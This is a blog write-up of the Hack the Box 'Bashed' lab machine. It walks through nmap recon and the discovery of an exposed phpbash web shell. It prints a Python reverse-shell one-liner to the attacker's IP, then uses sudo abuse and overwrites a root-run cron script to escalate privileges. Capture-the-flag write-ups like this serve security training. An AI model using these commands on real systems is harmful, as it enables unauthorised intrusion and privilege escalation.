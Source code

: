 ```yaml
---
layout: post
title: Hack the Box - Bashed
subtitle: Easy Linux box with a backdoor and misconfigured permissions
#cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/htblogo.webp
share-img: /assets/img/htblogo.webp
tags: [htb, writeup]#
---
```


Today I'll do a small quick writeup on the [Bashed](https://www.hackthebox.eu/home/machines/profile/118) Hack the Box machine. This was an Easy, but quite interesting box. Let's get on with it!

## Recon

As always, let's start with nmap

```console
nmap -sV -sC -oN bashed.nmap bashed.htb
```

```console
# Nmap 7.80 scan initiated Mon Oct 19 13:27:40 2020 as: nmap -sV -sC -oN bashed.nmap bashed.htb
Nmap scan report for bashed.htb (10.10.10.68)
Host is up (0.045s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 19 13:27:49 2020 -- 1 IP address (1 host up) scanned in 9.62 seconds
```

Does not seem to be much open, just an Apache on port 80 serving PHP files

## Web port

On the web we can find a post explaining that [phpbash](https://github.com/Arrexel/phpbash) is installed on this machine. This is a direct reverse shell, so the obvious step to get our initial foothold is to find its path.

![Site on 80](/assets/img/2020-10-21-18-47-56.png)

After launching gobuster, we get that the reverse shell is at the following path: `http://bashed.htb/dev/phpbash.php`. (Sorry I forgot to write down the exact command.)

![webshell](/assets/img/2020-10-21-18-52-17.png)

There we can run a basic python reverse shell to our machine. Do not forget to set up nmap on our host!

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.33",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Privilege escalation

If we check with sudo we can see that we can run any comand as the user `scriptmanager`

```console
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

```console
$ sudo -u scriptmanager python -c 'import pty; pty.spawn("/bin/sh")'
$ whoami
whoami
scriptmanager
```

or also `sudo -u scriptmanager bash -i`

There is a folder in `/scripts` that has a python script that is being run as sudo every minute (we can see that by looking at the created file timestamp and permissions). We can modify `test.py` since we have write permissions on this folder, wait a minute and our code will be run as root!

```bash
echo "import os; os.system('cp /root/root.txt /scripts && chmod 777 /scripts/root.txt ');" > test.py
```

## Conclusions

This was a quick and easy machine! I am aware that this was not the best writeup, since the notes i took were not with doing this in mind. I hope the next one is way better.
